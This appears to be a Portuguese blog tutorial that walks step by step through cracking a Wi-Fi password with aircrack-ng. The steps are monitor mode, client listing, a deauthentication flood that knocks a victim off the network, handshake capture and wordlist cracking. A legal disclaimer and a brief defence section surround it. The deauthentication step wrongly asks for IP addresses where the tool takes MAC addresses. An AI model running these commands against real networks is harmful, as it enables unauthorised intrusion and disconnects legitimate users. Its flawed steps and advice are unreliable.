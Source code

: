 ```yaml
---
title:  "Invasão de Redes Wireless com Aircrack-NG"
categories: seguranca
tags: aircrack-ng wifi linux
image: /assets/img_posts/aircrack-ng.png
description: Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/aircrack-ng.png)

### ATENÇÃO!

Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.

Invadir dispositivo alheio, conectado ou não a rede de computadores, mediante violação de segurança com o fim de obter informações sem autorização é crime. No Brasil, pode acarretar em 1 ano de reclusão e multa.

Aproveite este conhecimento para progredir de maneira justa e sem prejudicar outras pessoas.

## Requerimentos

Para a realização deste tutorial será necessário um computador com o Sistema Operacional Debian ou variantes e que a máquina possua placa de rede wireless ou adaptador wi-fi, e acesso _root_.

Também é necessário que você possua uma _wordlist_ disponível em seu ambiente.

### Informação

Wordlists são arquivos que possuem várias palavras frequentemente utilizadas.

Você pode escrever o seu próprio arquivo ou encontrar exemplos através de uma simples busca no Google.

Precisará também de um ponto de acesso wireless, no qual você não esteja conectado com a interface de teste.

Para ter certeza sobre a existência de interfaces wi-fi, faça a verificação:

```sh
iwconfig
```

Se o dispositivo estiver conectado, mas não for listado; inicie a interface:

```sh
ifconfig wlan0 up
```

Veja as redes que estão ao seu alcance:

```sh
iwlist wlan0 scanning
```

Anote o Mac Adress e o Canal da rede alvo, pois precisará deles na sequência.

## Instalação

Para monitorar e capturar pacotes de um cliente da rede, precisaremos do **Aircrack-ng**:

```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Iniciando o Monitoramento

Estando com o aircrack-ng instalado, podemos começar:

Matando processos que podem causar incompatibilidades

```sh
airmon-ng check kill
```

Iniciando o monitoramento

```sh
airmon-ng start wlan0
```

## Listando Clientes

Pegue os dados do seu alvo e insira-os nas opções entre chaves (apague as chaves depois), abaixo:

```sh
airodump-ng mon0 --bssid {MAC_ADDRESS} --channel {CHANNEL} --write wifi.test
```

Depois disso, o scanner lhe mostrará uma lista com todas as Wokstations (clientes) que estão conectados na rede.

## Capturando Dados

Abra um novo terminal, escolha uma workstation ativa e capture os pacotes dela (ela irá cair durante esse processo):

```sh
aireplay-ng -0 100 -a {GATEWAY IP} -c {WORKSTATION IP} mon0 --ignore-negative-one
```

## Descobrindo a Senha

Através dos dados capturados, tente descobrir a senha:

```sh
aircrack-ng wifi.test-01.cap -w wordlist.txt
```

## Como impedir esse tipo de invasão?

Sempre utilize senhas complexas combinando caracteres especiais, como **!@#$%¨&#038;*()_+§**, e se possível configure como oculto o SSID da rede (embora o Aircrack-ng detectá-la) para que ela não seja vista como um possível alvo de crackers.

## Atualização

Use **wifite** e poupe seu tempo!
